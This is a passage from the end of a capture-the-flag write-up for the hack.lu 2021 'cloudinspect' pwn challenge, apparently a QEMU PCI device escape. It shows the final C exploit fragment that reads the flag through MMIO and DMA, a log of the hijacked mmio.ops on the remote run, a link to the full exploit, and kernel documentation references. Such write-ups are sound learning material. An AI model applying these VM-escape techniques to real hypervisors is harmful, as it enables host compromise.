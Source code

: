 ```c
if (!ioread(CLOUDINSPECT_MMIO_OFFSET_TRIGGER)) {
		perror("Failed to read the flag\n");
		return -1;
}

memcpy(flag, dmabuf, 0x30);
printf("flag: %s\n", flag);


// adresses are different because here is another execution on the remote challenge
/*
b'[*] CloudInspectState.mmio.ops.read () => jmp @ 7fe3dc001000\r\r\n'
b'[*] CloudInspectState.mmio.ops = original ops\r\r\n'
b'[*] Reading the flag @ 7fe3dc005000\r\r\n'
b'flag: flag{cloudinspect_inspects_your_cloud_0107}\r\r\n'

flag: flag{cloudinspect_inspects_your_cloud_0107}
*/
```

Thanks for the organizers for this awesome event! The other pwn challenges look like very interesting as well!
You can the final exploit [here](https://github.com/ret2school/ctf/blob/master/2021/hack.lu/pwn/cloudinspect/remote.c).

## Resources

- [Interesting article about PCI devices](https://tldp.org/LDP/tlk/dd/pci.html)
- [Linux kernel PCI documentation](https://www.kernel.org/doc/Documentation/filesystems/sysfs-pci.txt)
- [Linux kernel pagemap documentation](https://www.kernel.org/doc/Documentation/vm/pagemap.txt)

